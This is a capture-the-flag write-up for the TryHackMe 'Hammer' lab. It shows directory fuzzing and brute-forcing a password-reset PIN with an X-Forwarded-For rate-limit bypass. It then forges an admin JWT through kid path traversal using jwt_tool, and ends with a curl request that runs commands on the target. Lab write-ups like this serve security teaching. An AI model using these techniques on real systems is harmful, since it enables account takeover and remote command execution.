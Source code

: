 # Hammer

We found a website on port 1337. An html comment in home page states that

```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

so we start fuzzing for `http://MACHINE_IP:1337/hmr_FUZZ` and soon we find a `hmr_logs` directory

```
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 43ms]
```

A log file in the hmr\_logs directory reveals an email address that will result valid for password reset

```
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
```

Using `tester@hammer.thm` on the `reset_password.php` page we are asked for a 4 digits PIN:

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

So we can start trying all possible codes, with ffuf or with burp:

<div align="left">

<figure><img src="../../.gitbook/assets/image (15).png" alt="" width="298"><figcaption></figcaption></figure>

</div>

we set recevory\_code as placeholder for our payloads and try all numbers from 0 to 9999 (padded to 4 digits length)

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

but soon we start getting responses where we are rate limited:

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

We can try bypassing this rate limiting with `X-Forwarded-For` and we can see that we can actually succeed

So we can do the same attack, but using attack type "Battering Ram" to put the same payload in every placeholder

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

It may be possible that we have to restart the password reset from scratch (because in the meanwhile time has passed and our session is no longer valid for password reset). At some point we will eventually get the correct PIN and so our session will be valid for password reset:

![](<../../.gitbook/assets/image (19).png>)

so we go ahead and change the password. We login and we get very limited command execution along with the first flag.

![](<../../.gitbook/assets/image (20).png>)

Authentication and authorization here is done with JWT:

```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/mykey.key"
}
```

```json
{
  "iss": "http://hammer.thm",
  "aud": "http://hammer.thm",
  "iat": 1725092044,
  "exp": 1725095644,
  "data": {
    "user_id": 1,
    "email": "tester@hammer.thm",
    "role": "user"
  }
}
```

Probably we have to give us admin role.

We found a way to proceed here: https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#path-traversal-with-kid

First we confirm that we can tamper `kid`: notice the different response with a non existent file, and an invalid key file&#x20;

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

What is suggested on hacktricks web site won't work (`python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""`) because here an emtpy kid file is explicitly forbidden. Instead we have to use the `-T` option to tamper a valid token with this command:

```bash
python3 jwt_tool.py eyJ0... -T -S hs256 -kf /proc/sys/kernel/randomize_va_space
```

Here we are going to tamper the cookie and we are using the content of `/proc/sys/kernel/randomize_va_space` to sign the result.

First we select `[3]` to point `kid` to `/proc/sys/kernel/randomize_va_space`&#x20;

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

In the same way we alter user and set role admin:

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

In the end we will receive a valid token with admin role where we have unlimited RCE.

```bash
curl --path-as-is -i -s -k -X $'POST' \
-H $'Host: 10.10.225.91:1337' \
-H $'Authorization: Bearer eyJ0e...' -H $'X-Requested-With: XMLHttpRequest' \
-H $'Content-Length: 41' \   -b $'PHPSESSID=m5b8o4dhpgde9i3tisoj3u3evv; token=eyJ0...; persistentSession=no'  \
--data-binary $'{\"command\":\"wc -c /home/ubuntu/flag.txt\"}' \
$'http://10.10.225.91:1337/execute_command.php'

HTTP/1.1 200 OK
Date: Sat, 31 Aug 2024 08:31:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 42
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"output":"23 \/home\/ubuntu\/flag.txt\n"}
```

Try the room here: https://tryhackme.com/r/room/hammer
